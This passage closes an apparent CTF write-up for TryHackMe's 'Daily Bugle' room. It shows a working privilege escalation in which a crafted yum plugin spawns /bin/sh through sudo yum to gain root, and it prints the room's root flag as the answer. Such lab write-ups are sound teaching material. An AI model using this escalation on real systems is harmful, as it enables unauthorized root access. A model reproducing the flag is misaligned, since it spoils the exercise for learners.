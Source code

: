 ```shell-session
# Just copy-paste into shell:
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
sh-4.2# whoami
root

sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt 
eec3d53292b1821868266858d7fa6f79
```

> What is the root flag?
> 
> Answer: `eec3d53292b1821868266858d7fa6f79`


## Conclusion
If this writeup helps, please consider following me on [github](https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Room: [Daily Bugle](https://tryhackme.com/room/dailybugle)

